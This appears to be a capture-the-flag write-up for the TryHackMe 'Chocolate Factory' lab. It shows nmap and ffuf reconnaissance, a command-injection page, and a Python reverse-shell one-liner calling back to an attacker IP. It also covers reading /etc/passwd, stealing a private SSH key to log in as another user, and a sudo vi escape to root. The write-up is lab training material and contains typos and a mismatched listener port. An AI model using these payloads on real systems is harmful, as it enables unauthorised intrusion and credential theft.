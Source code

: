 This is a vulnerable lab available @ https://tryhackme.com/room/chocolatefactory



POC


part A: gaining initial Access

Nmap scan: The pentest started with a nmap scan using 
nmap -T4 -sV -A 10.10.12.204  
![image](https://github.com/user-attachments/assets/d6c9ab51-46d6-495e-981e-8544c5f4d30c)

This gave  back the services running on the server,


a. Port 21: This allowed anonymous login, and the port was accessed using 
ftp  10.10.12.204

After a succesful login, the file was downloaded 
![image](https://github.com/user-attachments/assets/ef7fc003-7fd9-4f0f-9684-7ec8988b2df4)



picture showing the downloaded file 
![gum_room](https://github.com/user-attachments/assets/39218184-a257-44b5-9826-ecdcd8ec7f1d)

b.  80: The website has a homepage with a login form

The homepage
![image](https://github.com/user-attachments/assets/88eac3bd-6883-4760-a27f-67bc0fafd0b0)

The source code of the page ws checked out, and from it, a link tagged "validatee.php" was found which proved that the website was running on php 

The port 80 was subjected to directory bruteforce using FFUF
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.204/FUZZ -e .php, .HTML 

and some directories were gotten, they include home.php, index.html, and others 

Picture below shows the result of the FFUF 
![image](https://github.com/user-attachments/assets/5d46e6f6-472b-4618-a95b-b9326c204f07)


getting to The home.php, it was discovered that the page has a command functionality 
![image](https://github.com/user-attachments/assets/7e8555a3-049a-4558-aa7c-c8305eaa9b4c)


Trying the comman d"Cat /etc", the website gave a response showing that it is vulnerable to command ninjection vulnerability
![image](https://github.com/user-attachments/assets/8c73edae-6c13-4884-8868-df07f4aef56d)



using the command " which python3 " on the page, the server hosting website was querried to confirm if there is a python binary on it , and the response showed that there is a python binary

then using the command 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.106.235",2294));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
and
nc -nlvp 2249

A reverse shell was gotten 
Picture showing the reverse shell gotten from the server hosting the website
![image](https://github.com/user-attachments/assets/eb87dc55-adaa-46cc-9b3d-5ca84aaad3db)


And we were able to get initial access...


Part B: Privilege escalation

After initial access was gained with the user www-data
some files were found in the directory which includes key_rev_key

Using the command "strings" to check the content of the file "key_rev_key", a key was found
![image](https://github.com/user-attachments/assets/af1530b0-29d1-4246-a24c-22a9777c0180)


Then using cat /etc/passwd, the user accounts on the machine was discovered, and a user called charlie was part of it.

Thn I navigated to charlie's home directory and files like telport, telport.pub were found
the content of charlie's home directory
![image](https://github.com/user-attachments/assets/fc896cf9-6549-4345-90e2-ecf7d2debc0c)

The teleport file contained a private ssh key, this key was copied and saved on the attacker's machine with the name "charley' 

The key was then used to login to charlie's account via ssh 
ssh charlie@10.10.12.204 -i charley 

Picture showing a successful login
![image](https://github.com/user-attachments/assets/6cd2fc4f-ff14-4f8d-b632-d71b9e41ebf9)



A user flag was then found in the user home directory..


Then to gaining root access..... coming soon 










2. Directoy bruteforce that leads to a acommand njectin page
3. run a php or bash shell command 

after getting the shell
find the user account
navigate to charlie's account and get the user flag by
  1. grabbing a private ssh keys
  2. ssh charlie@ip -i name_of_key

then
get the user flag
then
  sudo -l
  sudo /usr/bin.vi
  then !/bin/bash

  
